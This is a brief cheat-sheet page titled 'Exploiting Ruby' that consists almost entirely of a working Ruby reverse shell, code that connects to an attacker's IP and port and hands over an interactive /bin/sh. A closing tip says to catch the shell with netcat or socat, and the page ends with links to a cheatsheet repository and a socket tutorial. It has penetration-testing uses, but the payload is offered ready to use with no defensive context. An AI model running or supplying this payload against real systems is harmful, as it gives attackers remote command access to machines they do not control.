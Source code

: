 # Exploiting Ruby

author:: Nathan Acks  
date:: 2022-07-11

A simple reverse shell:

```ruby
require "socket"

attacker_ip = "10.0.0.1"
attacker_port = 1234

f = TCPSocket.open(attacker_ip, attacker_port).to_i

exec sprintf("/bin/sh -i <&%d >&%d 2>&%d", f, f, f)
```

Catch it with netcat or socat.

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
* [Ruby - Socket Programming](https://www.tutorialspoint.com/ruby/ruby_socket_programming.htm)
